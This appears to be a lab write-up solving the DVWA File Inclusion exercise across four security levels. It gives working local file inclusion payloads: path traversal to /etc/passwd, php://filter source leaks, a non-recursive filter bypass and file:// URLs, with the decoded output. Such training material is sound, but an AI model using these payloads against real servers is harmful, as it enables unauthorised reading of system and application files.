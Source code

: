 ```yaml
---
description: http://localhost/DVWA/vulnerabilities/fi
---
```


# File Upload --

<details>

<summary>What is a File Inclusion?</summary>

A **file inclusion** attack is a type of security exploit that takes advantage of improper or unchecked input handling in web applications. The goal of such an attack is to include files on a server through the web browser. There are two main types of file inclusion attacks: Local File Inclusion (LFI) and Remote File Inclusion (RFI).

1. **Local File Inclusion (LFI):**
   * In an LFI attack, an attacker tries to include files that are already present on the target system. These files could be configuration files, system files, or any other sensitive information.
   * The attacker manipulates input parameters or user-controlled data in a way that the application includes a file from the local file system.
   * For example, if a web application includes a file based on user input without proper validation, an attacker might input a malicious path to include sensitive files.
2. **Remote File Inclusion (RFI):**
   * RFI is a more severe form of file inclusion attack where the attacker includes files from a remote server controlled by them.
   * The attacker injects a URL pointing to a file on a remote server into a parameter or input field, and the application fetches and includes the contents of that remote file.
   * This can lead to the execution of arbitrary code on the server, potentially allowing the attacker to take control of the system.

File inclusion vulnerabilities can occur due to poor input validation and lack of proper security measures in web applications. To prevent file inclusion attacks, developers should:

* Validate and sanitize user input.
* Avoid dynamically including files based on user input without proper validation.
* Implement proper access controls to restrict file access.
* Use secure coding practices and frameworks that handle user input securely.

Regular security assessments, code reviews, and penetration testing can help identify and mitigate file inclusion vulnerabilities in web applications.

</details>

{% hint style="info" %}
Using BurpSuite and the FoxyProxy extension is recommended.
{% endhint %}

## Low

We've a div containing three distinct hyperlinks, each triggering the display of various files within the web application upon activation. The exhibition of a specific file is accomplished through the utilization of the subsequent GET request.

<div align="left">

<figure><img src="../.gitbook/assets/image (199).png" alt=""><figcaption></figcaption></figure>

</div>

<figure><img src="../.gitbook/assets/image (200).png" alt=""><figcaption><p>file1.pho</p></figcaption></figure>

<figure><img src="../.gitbook/assets/image (201).png" alt=""><figcaption><p>file2.php</p></figcaption></figure>

<figure><img src="../.gitbook/assets/image (202).png" alt=""><figcaption><p>file3.php</p></figcaption></figure>

<div align="left">

<figure><img src="../.gitbook/assets/image (203).png" alt=""><figcaption></figcaption></figure>

</div>

```http
GET /DVWA/vulnerabilities/fi/?page=file1.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://localhost/DVWA/vulnerabilities/fi/?page=include.php
Connection: close
Cookie: security=low; PHPSESSID=s7nq882ng75b21h8b8uc4rmaod
Upgrade-Insecure-Requests: 1
```

This is php code of this level:

<figure><img src="../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>

The concept involves manipulating the filename within the page parameter to any desired file on the target, enabling us to retrieve its contents. By employing the following GET request, we can read the contents of the etc password file.

#### 1st Payload

```url
http://localhost/DVWA/vulnerabilities/fi/?page=../../../../../../etc/passwd
```

Replacing this path: `../../../../../../etc/passwd` at file1.php, we obtain result of command in html output:

<figure><img src="../.gitbook/assets/image (40).png" alt=""><figcaption></figcaption></figure>

If the goal is to disclose certain PHP code, one approach is to utilize PHP filters to encode the PHP code into base64.

#### 2nd Payload

```url
http://localhost/DVWA/vulnerabilities/fi/?page=php://filter/convert.base64-encode/resource=../../../../../etc/passwd
```

but the request is to see `fi.php` file, then we use this URL:

```
http://evil/vulnerabilities/fi/?page=php://filter/convert.base64-encode/resource=../../../../../var/www/html/hackable/flags/fi.php
```

which gives us the following base64 payload

```bash
PD9waHAKCmlmKCAhZGVmaW5lZCggJ0RWV0FfV0VCX1BBR0VfVE9fUk9PVCcgKSApIHsKCWV4aXQgKCJOaWNlIHRyeSA7LSkuIFVzZSB0aGUgZmlsZSBpbmNsdWRlIG5leHQgdGltZSEiKTsKfQoKPz4KCjEuKSBCb25kLiBKYW1lcyBCb25kCgo8P3BocAoKZWNobyAiMi4pIE15IG5hbWUgaXMgU2hlcmxvY2sgSG9sbWVzLiBJdCBpcyBteSBidXNpbmVzcyB0byBrbm93IHdoYXQgb3RoZXIgcGVvcGxlIGRvbid0IGtub3cuXG5cbjxiciAvPjxiciAvPlxuIjsKCiRsaW5lMyA9ICIzLikgUm9tZW8sIFJvbWVvISBXaGVyZWZvcmUgYXJ0IHRob3UgUm9tZW8
```

Decoding it, we obtain this php code:

```php
<?php

if( !defined( 'DVWA_WEB_PAGE_TO_ROOT' ) ) {
	exit ("Nice try ;-). Use the file include next time!");
}

?>

1.) Bond. James Bond

<?php

echo "2.) My name is Sherlock Holmes. It is my business to know what other people don't know.\n\n<br /><br />\n";

$line3 = "3.) Romeo, Romeo! Wherefore art thou Romeo?";
$line3 = "--LINE HIDDEN ;)--";
echo $line3 . "\n\n<br /><br />\n";

$line4 = "NC4pI" . "FRoZSBwb29s" . "IG9uIH" . "RoZSByb29mIG1" . "1c3QgaGF" . "2ZSBh" . "IGxlY" . "Wsu";
echo base64_decode( $line4 );

?>

<!-- 5.) The world isn't run by weapons anymore, or energy, or money. It's run by little ones and zeroes, little bits of data. It's all just electrons. -->
```

{% hint style="warning" %}
The input is not sanitized, so I can execute any (potentially malicious) command.
{% endhint %}

## Medium

<figure><img src="../.gitbook/assets/image (204).png" alt=""><figcaption></figcaption></figure>

In this case, code includes a little validation checks:

`$file = str_replace( array( "http://", "https://" ), "", $file );`\
`$file = str_replace( array( "../", "..\\" ), "", $file );`

it tries to remove all sorts of http and https protocol usage, trying to remove the possibility for a Remote File Inclusion (RFI), and it also replaces `../` with the empty string: `""`.

The handling of the '../' character sequence is insufficient, as the validation is not performed recursively.

#### 1st Payload

```bash
....//....//....//....//....//etc/passwd
```

After input validation (not recursive), changing ../ to "", we obtain this result:

```
../../../../../etc/passwd
```

Then full URL will be this:

```
http://localhost/DVWA/vulnerabilities/fi/?page=....//....//....//....//....//etc/passwd/passwd
```

\
How the low level, adding the php filters we can also leak the server’s php code:

```
http://localhost/DVWA/vulnerabilities/fi/?page=php://filter/convert.base64-encode/resource=....//....//....//....//....//var/www/html/hackable/flags/fi.php
```

and we get the following base64

```
PD9waHAKCmlmKCAhZGVmaW5lZCggJ0RWV0FfV0VCX1BBR0VfVE9fUk9PVCcgKSApIHsKCWV4aXQgKCJOaWNlIHRyeSA7LSkuIFVzZSB0aGUgZmlsZSBpbmNsdWRlIG5leHQgdGltZSEiKTsKfQoKPz4KCjEuKSBCb25kLiBKYW1lcyBCb25kCgo8P3BocAoKZWNobyAiMi4pIE15IG5hbWUgaXMgU2hlcmxvY2sgSG9sbWVzLiBJdCBpcyBteSBidXNpbmVzcyB0byBrbm93IHdoYXQgb3RoZXIgcGVvcGxlIGRvbid0IGtub3cuXG5cbjxiciAvPjxiciAvPlxuIjsKCiRsaW5lMyA9ICIzLikgUm9tZW8sIFJvbWVvISBXaGVyZWZvcmUgYXJ0IHRob3UgUm9tZW8
```

To get an RFI instead we can use `php streams`.

{% hint style="warning" %}
The input is not sanitized sufficiently , so I can execute any (potentially malicious) command.
{% endhint %}

## High

<div align="left">

<figure><img src="../.gitbook/assets/image (41).png" alt=""><figcaption></figcaption></figure>

</div>

In this code the're two validation checks:

1. The `fnmatch()` function in PHP, which matches strings against patterns using shell-style wildcards. In our scenario, it matches any file that begins with 'file.'
2. The condition `$file != 'include.php'` introduces a specific case where the 'if' statement fails only when the file doesn't start with 'file' and is precisely 'include.php'.

#### 1st Payload

Regarding LFI exploitation, the code solely verifies whether the parameter begins with 'file' and does not examine its ending. Consequently, we can employ the following GET request to expose the 'passwd' file.

```
http://localhost/DVWA/vulnerabilities/fi/?page=file/../../../../../../../etc/passwd
```

however we cannot seem to able to use the php filters to leak php code by using the base64 converter.

#### 2nd Payload

An alternative approach involves leveraging the file protocol to access and read any file in the system based on its given path.

```html
http://localhost/DVWA/vulnerabilities/fi/?page=file:///etc/passwd
http://localhost/DVWA/vulnerabilities/fi/?page=file:///var/www/html/hackable/flags/fi.php
```

{% hint style="warning" %}
The input is not sanitized sufficiently , so I can execute any (potentially malicious) command.
{% endhint %}

## Impossible

<figure><img src="../.gitbook/assets/image (42).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
Site isn't vulnerable to File Inclusion attack because the request includes only possible lecit value/page.
{% endhint %}

## References

For the making of this solution the following resource were used:

* [https://github.com/LeonardoE95/DVWA/tree/main/src/file\_inclusion](https://github.com/LeonardoE95/DVWA/tree/main/src/file\_inclusion)
